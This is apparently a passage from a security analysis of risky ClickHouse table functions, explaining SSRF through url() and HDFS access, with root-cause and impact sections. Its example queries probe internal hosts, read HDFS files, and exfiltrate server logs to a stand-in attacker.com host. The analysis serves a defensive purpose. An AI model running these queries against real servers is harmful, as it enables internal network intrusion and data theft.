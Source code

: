 *   **`url(URL)`:**
    *   **Vulnerability:** Enables Server-Side Request Forgery (SSRF). ClickHouse server will make a request to the specified URL. Attackers can use this to:
        *   **Access internal network resources:** Target internal services, APIs, databases, or admin panels that are not directly accessible from the internet.
        *   **Port scanning:** Probe internal network ports to identify open services.
        *   **Data exfiltration (out-of-band):** Send data to an attacker-controlled server.
    *   **Example Malicious Query:**
        ```sql
        SELECT url('http://internal-api.example.com/admin/status'); -- Access internal admin panel
        SELECT url('http://192.168.1.10:8080'); -- Probe internal service
        SELECT url('http://attacker.com/log?data=' || file('/var/log/clickhouse-server/clickhouse-server.log')); -- Exfiltrate logs via URL
        ```
    *   **Impact:** SSRF, information disclosure, potential server compromise (depending on the accessed internal resources).

*   **`hdfs(path)`:**
    *   **Vulnerability:** Allows access to Hadoop Distributed File System (HDFS). If ClickHouse has access to an HDFS cluster, attackers can potentially read or write files in HDFS, depending on the configured permissions and ClickHouse's access rights.
    *   **Example Malicious Query:**
        ```sql
        SELECT hdfs('hdfs://namenode:9000/user/attacker/malicious_file.txt'); -- Read files from HDFS
        -- (Less likely but potentially possible if write access is misconfigured)
        -- INSERT INTO TABLE FUNCTION hdfs('hdfs://namenode:9000/user/attacker/malicious_file.txt') SELECT ...; -- Write to HDFS
        ```
    *   **Impact:** Data breach (HDFS data), potential data manipulation (if write access is possible), information disclosure.

#### 4.4 Vulnerability Analysis (Root Cause)

The root vulnerability lies in the inherent functionality of these functions, which provide powerful but potentially dangerous capabilities.  The core issue is the lack of sufficient default restrictions and the potential for misconfiguration or oversight in access control and input validation.

*   **Functionality by Design:** These functions are designed to access external resources, which is their intended purpose. However, this functionality introduces security risks if not properly managed.
*   **Lack of Default Restrictions:**  If not explicitly configured, these functions might be enabled and accessible to a wide range of users, increasing the attack surface.
*   **Configuration Complexity:**  Properly configuring access controls and restrictions for these functions can be complex and requires careful planning and implementation.
*   **Input Validation Gaps:** Applications that use these functions might fail to adequately validate and sanitize user input used to construct paths or URLs, leading to injection vulnerabilities.

#### 4.5 Impact Analysis (Detailed Consequences)

*   **Data Breaches (Confidentiality Impact - High):** Reading local files or HDFS files can lead to the exposure of sensitive data, including application secrets, user data, financial information, or intellectual property.
*   **Server-Side Request Forgery (SSRF) (Confidentiality, Integrity, Availability Impact - Medium to High):** SSRF can allow attackers to:
    *   **Access internal services and data:**  Potentially gaining access to sensitive internal systems and data that are not intended to be publicly accessible.
    *   **Manipulate internal systems:**  Depending on the accessed services, attackers might be able to modify data, trigger actions, or disrupt operations within the internal network.
    *   **Bypass security controls:** SSRF can be used to bypass firewalls, network segmentation, and other security measures.
*   **Information Disclosure (Confidentiality Impact - Medium to High):**  Reading configuration files, logs, or internal network information can provide attackers with valuable insights to plan further attacks or gain deeper access.